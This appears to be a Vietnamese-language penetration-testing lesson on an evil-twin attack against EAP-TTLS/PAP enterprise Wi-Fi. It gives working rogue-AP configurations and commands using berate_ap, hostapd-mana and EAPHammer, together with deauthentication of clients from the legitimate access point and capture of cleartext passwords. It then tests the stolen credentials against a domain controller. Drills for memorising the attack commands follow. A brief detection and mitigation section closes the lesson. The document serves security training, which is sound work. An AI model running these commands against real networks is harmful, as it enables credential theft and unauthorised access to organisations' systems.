

> **Prerequisites**: [[04-evil-twin-rogue-radius-peap|04. Evil Twin: Rogue RADIUS + PEAP Hash Capture]]
> **Objectives**:
> - Hiểu tại sao EAP-TTLS/PAP là worst-case scenario cho defenders
> - Setup Rogue AP với hostapd-mana và berate_ap cho TTLS/PAP capture
> - Thực hiện attack và capture cleartext credentials
> - Phân biệt TTLS/PAP với TTLS/MSCHAPv2 từ pcap analysis

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Target network dùng **EAP-TTLS** (xác nhận EAP Type 21 từ Wireshark recon)
> - Inner authentication method là **PAP** (Password Authentication Protocol)
> - Client không enforce cert validation (hoặc sẽ accept self-signed)
> - hostapd-mana hoặc eaphammer cài đặt trên Kali

> [!info] Phổ biến ở đâu?
> EAP-TTLS/PAP phổ biến trong các môi trường legacy: older Cisco WLC deployments, universities, organizations với RADIUS server cũ không support MSCHAPv2. PAP được chọn vì đơn giản nhất để implement — và cũng nguy hiểm nhất.

---

## Cơ chế tấn công

### Tại sao PAP = Cleartext?

**PAP (Password Authentication Protocol)** là protocol authentication đơn giản nhất: client gửi username và password dưới dạng **plaintext** đến server. Không có hash, không có challenge-response, không có mã hóa ở protocol level.

Trong context EAP-TTLS, PAP exchange xảy ra *bên trong* TLS tunnel — có nghĩa là bên ngoài TLS tunnel thì encrypted. **Nhưng nếu Rogue RADIUS là TLS endpoint → Rogue server nhìn thấy toàn bộ PAP exchange ở plaintext.**

```
[Outer TLS Tunnel — đến ROGUE RADIUS]
  └── PAP Authentication (bên trong):
      Client → Rogue RADIUS: Username-Password = "jdoe:Password123!"
                                                    ↑ CLEARTEXT ở đây
```

**So sánh TTLS inner methods:**

| Inner Method | What Attacker Sees | Need to Crack? |
|-------------|-------------------|---------------|
| PAP | `jdoe:Password123!` — cleartext | **NO** |
| CHAP | MD5(password + challenge) | MD5 crack |
| MSCHAP | Single DES hash | Fast crack |
| MSCHAPv2 | NetNTLMv1 | hashcat -m 5500 |

### hostapd-mana vs hostapd-wpe

Có hai popular WPE (Wireless Pwnage Edition) patches cho hostapd:

| Tool | Maintainer | Đặc điểm |
|------|-----------|---------|
| **hostapd-wpe** | Brad Anton (Foundstone) | Original; cài sẵn trong Kali |
| **hostapd-mana** | SensePost | Bổ sung nhiều features: MANA attack, credential output formatting |
| **berate_ap** | SensePost | Wrapper cho hostapd-mana; đơn giản hóa setup |

---

## Quy trình tấn công

**Bước 1 — Cài đặt hostapd-mana và berate_ap**

```bash
# hostapd-mana
sudo apt install hostapd-mana

# berate_ap (wrapper)
git clone https://github.com/sensepost/berate_ap.git /opt/berate_ap
cd /opt/berate_ap
sudo pip3 install -r requirements.txt

# Verify
hostapd-mana --version
```

**Bước 2 — Setup với berate_ap (easiest method)**

```bash
# Quick launch — berate_ap tự setup certificates và config
sudo /opt/berate_ap/berate_ap \
    -n wlan0 \
    CorpWifi \
    --eap \
    --mana-wpe \
    --mana-credout /tmp/captured_creds.txt \
    --eap-user-file /etc/hostapd-wpe/hostapd-wpe.eap_user
```

> **Expected output**:
> ```
> [*] Using interface wlan0
> [*] Starting hostapd-mana...
> [*] AP up: CorpWifi
> [+] Got credentials!
>     Username: jdoe
>     Password: Password123!    ← cleartext PAP
> ```

**Bước 3 — Manual hostapd-mana với custom config (more control)**

```bash
# Tạo config file:
cat > /tmp/mana_ttls_pap.conf << 'EOF'
interface=wlan0
ssid=CorpWifi
channel=6
hw_mode=g
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/tmp/mana_eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.pem
private_key_passwd=whatever
mana_wpe=1
mana_credout=/tmp/captured_creds.txt
EOF

# eap_user file — PAP priority trong Phase 2:
cat > /tmp/mana_eap_user << 'EOF'
* TTLS,PEAP,TLS,MD5,GTC
"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC [2]
EOF

# Launch
sudo hostapd-mana /tmp/mana_ttls_pap.conf
```

**Bước 4 — Deauth clients từ legit AP**

```bash
sudo airmon-ng start wlan1
sudo aireplay-ng -0 0 -a <BSSID_LEGIT_AP> wlan1mon
```

**Bước 5 — Collect cleartext credentials**

```bash
# Watch credential output file:
tail -f /tmp/captured_creds.txt

# Hoặc monitor hostapd-mana output trực tiếp
# Expected format:
# MANA WPE Creds:  jdoe -> Password123!  (PAP)
```

**Bước 6 — Verify**

```bash
nxc smb <DC_IP> -u jdoe -p 'Password123!'
```

---

## Biến thể & Bypass

### EAPHammer với EAP-TTLS

EAPHammer cũng support EAP-TTLS attack:

```bash
./eaphammer \
    --bssid <BSSID> \
    --essid CorpWifi \
    --channel 6 \
    --wpa 2 \
    --auth ttls \
    --interface wlan0 \
    --creds
```

### Phân biệt TTLS/PAP vs TTLS/MSCHAPv2 từ pcap

Trong Wireshark, sau khi TLS tunnel established:

- **TTLS/PAP**: Inside tunnel là RADIUS AVPs với `User-Password` attribute (AVP code 2) — plaintext
- **TTLS/MSCHAPv2**: Inside tunnel là MS-CHAPv2 challenge/response

```bash
# Wireshark filter để xem inner content (cần TLS decrypt với RSA key):
radius.avp.type == 2    # User-Password AVP — chỉ xuất hiện với PAP
```

### Forced TTLS Setup cho Testing

Trong lab environment, để force EAP-TTLS/PAP:

```bash
# Windows supplicant — force TTLS/PAP qua netsh:
netsh wlan set profileparameter name="CorpWifi" EAPType=21
# Hoặc edit XML profile để set inner method = PAP
```

---

## Cây quyết định



---

## Command Cheatsheet

**berate_ap (Easiest)**

```bash
# Quick EAP-TTLS attack với berate_ap
sudo berate_ap -n wlan0 <ESSID> \
    --eap --mana-wpe \
    --mana-credout /tmp/creds.txt \
    --eap-user-file /etc/hostapd-wpe/hostapd-wpe.eap_user

# Monitor output
tail -f /tmp/creds.txt
```

**EAPHammer TTLS**

```bash
./eaphammer -i wlan0 --channel <CH> --essid <ESSID> \
    --wpa 2 --auth ttls --creds

./eaphammer -i wlan0 --channel <CH> --essid <ESSID> \
    --auth ttls --creds --negotiate pap    # force PAP inner
```

**hostapd-mana Manual**

```bash
# eap_user file — PAP trước
echo '"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC [2]' \
    >> /etc/hostapd-wpe/hostapd-wpe.eap_user

sudo hostapd-mana /etc/hostapd-wpe/hostapd-wpe.conf
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày đầu.

**Drill 1 — berate_ap command từ memory**
Mục tiêu: gõ full berate_ap command mà không cần nhìn cheatsheet.

```bash
sudo berate_ap -n wlan0 <ESSID> --eap --mana-wpe --mana-credout /tmp/creds.txt
```

Luyện cho đến khi: gõ command trong dưới 15 giây.

**Drill 2 — Distinguish PAP output từ log**
Mục tiêu: nhìn hostapd-mana log và identify PAP cleartext ngay lập tức.

```
MANA WPE Creds: jdoe -> Password123!   ← nhận ra PAP ngay
vs
mschapv2: username: jdoe challenge: ... response: ...  ← hash, cần crack
```

Luyện cho đến khi: biết ngay cần crack hay không khi nhìn output.

**Drill 3 — EAP-TTLS vs PEAP identification**
Mục tiêu: từ Wireshark capture, xác định EAP-TTLS trong 10 giây.

```bash
tshark -r capture.cap -Y "eap.type" -T fields -e eap.type | sort | uniq -c
# 21 = EAP-TTLS → berate_ap/eaphammer --auth ttls
# 25 = PEAP → eaphammer --auth peap
```

Luyện cho đến khi: nhìn số là biết command tương ứng.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Duplicate SSID**: Giống Lesson 04.
> **Cleartext PAP in logs**: Nếu có endpoint DLP monitoring wireless → PAP credentials không nên xuất hiện.
> **Authentication method change**: Legit RADIUS log thấy clients không còn authenticate; anomaly detection.

> [!note] Mitigation
> - **Migrate away from PAP**: Thay PAP bằng MSCHAPv2 hoặc EAP-TLS trong inner auth — PAP không nên dùng trong enterprise wireless
> - Enforce certificate validation (root cause của tất cả Evil Twin attacks)
> - Audit RADIUS server config — verify inner auth method được enforced là MSCHAPv2 trở lên
> - Monitor RADIUS logs cho authentication anomalies

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | EAP-TTLS labs |
| Local VM | Kali + FreeRADIUS PAP + victim | Configure FreeRADIUS với PAP để test |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | berate_ap và hostapd-mana coverage |

---

## Field Manual Entry

> [!abstract] EAP-TTLS/PAP — Quick Reference
> **Điều kiện**: EAP Type 21 (TTLS); inner auth = PAP; client không validate cert
> **Lệnh nhanh**: `sudo berate_ap -n wlan0 <ESSID> --eap --mana-wpe --mana-credout /tmp/creds.txt`
> **Look for**: `MANA WPE Creds: username -> password_cleartext` trong output
> **Fallback**: Nếu inner = MSCHAPv2 → `hashcat -m 5500`
> **Ref**: [[06-eap-ttls-pap-attack|06. EAP-TTLS/PAP: Cleartext via Inner Auth]]
